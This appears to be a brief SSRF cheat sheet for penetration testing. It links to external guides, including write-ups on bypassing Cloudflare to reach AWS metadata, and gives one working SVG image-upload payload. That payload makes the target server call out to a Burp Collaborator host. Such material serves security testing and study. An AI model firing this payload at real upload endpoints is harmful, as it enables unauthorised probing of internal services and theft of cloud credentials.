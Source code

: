 ## 1. SSRF bible
https://docs.google.com/document/u/0/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/mobilebasic#h.3ndar9ni0n0h


## 2. Tips and tricks for ssrf
https://highon.coffee/blog/ssrf-cheat-sheet/#identifying-potential-locations-for-ssrf

## 3. SSRF payload in image upload
```
<?xml version="1.0" standalone="no"?><!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"> <svg width="200px" height="200px" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink"><image xlink:href="https://1y0ry36zsloshorypw4jca32mtsjg8.burpcollaborator.net/" x="0" y="0" height="200px" width="200px"/></svg>
```

## 4. Bypass by redirect through own server
https://infosecwriteups.com/an-exciting-journey-to-find-ssrf-bypass-cloudflare-and-extract-aws-metadata-fdb8be0b5f79


##
https://d0nut.medium.com/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5
